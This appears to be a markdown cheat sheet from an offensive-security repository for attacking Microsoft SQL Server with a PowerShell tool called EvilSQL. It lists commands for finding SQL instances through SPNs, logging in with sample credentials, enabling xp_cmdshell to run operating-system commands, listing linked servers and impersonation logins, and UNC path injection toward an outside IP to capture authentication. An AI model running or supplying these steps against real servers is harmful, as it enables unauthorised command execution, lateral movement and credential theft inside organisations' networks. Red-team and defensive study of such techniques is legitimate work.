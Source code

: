 # Microsoft SQL Server
## Find SQL Instance
```
setspn -T example -Q MSSQLSvc/*
```

## Exploition
https://github.com/an3m0ne/Myosotis/blob/main/SQL/EvilSQL.ps1

```powershell
# Connect SQL Instance
Evil-SQLConnect localhost
Evil-SQLConnect SQL01 master an3m0ne P@ssw0rd

# Close SQL Connection
Evil-SQLClose

# Get Current User
Get-CurrentContext

# Run Query
Run-CustomQuery -Query "SELECT @@version"
Run-CustomQuery -Query "SELECT @@version" -Server SQL02

# Enable xp_cmdshell
Enable-XPCmd
Enable-XPCmd -Server SQL02

# Execute OS Command via xp_cmdshell
Invoke-EvilXPCmd -Command whoami
Invoke-EvilXPCmd -Command whoami -Server SQL02

# Find Linked Server
Get-LinkedServers

# Find Impersonated login
Get-ImpresonationLogins

# UNC Path Injection
Invoke-EvilUNCPath -Address 192.168.0.1
Invoke-EvilUNCPath -Address 192.168.0.1 -Server SQL02
```
